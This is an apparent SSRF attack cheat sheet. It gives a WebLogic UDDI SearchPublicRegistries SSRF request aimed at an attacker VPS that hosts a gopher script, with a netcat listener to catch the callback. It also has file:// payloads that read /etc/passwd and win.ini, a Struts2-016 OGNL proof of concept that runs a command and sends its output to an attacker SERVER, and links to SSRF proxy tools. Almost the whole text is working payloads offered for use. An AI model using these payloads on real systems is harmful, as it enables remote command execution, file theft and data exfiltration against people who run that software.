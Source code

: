 vuln website:

https://example.com/uddiexplorer/SearchPublicRegistries.jsp
POST:
    operator=http://vps-ip/gopher.php&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search

vps:

> nc -lvv 2333

Connection from xx.xx.xx.xx port 2333 [tcp/snapp] accepted

###########################################

Local File Read

http://www.xxx.com/redirect.php?url=file:///etc/passwd
http://www.xxx.com/redirect.php?url=file:///C:/Windows/win.ini

###########################################

Bool SSRF

Struts2-016 POC:

?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}

//Modificar el SERVIDOR para que el vps devuelva los resultados en la vista access.log

###########################################

SSRF Proxy

SSRF_Proxy:
https://github.com/bcoles/ssrf_proxy

ssrfsocks:
https://github.com/iamultra/ssrfsocks
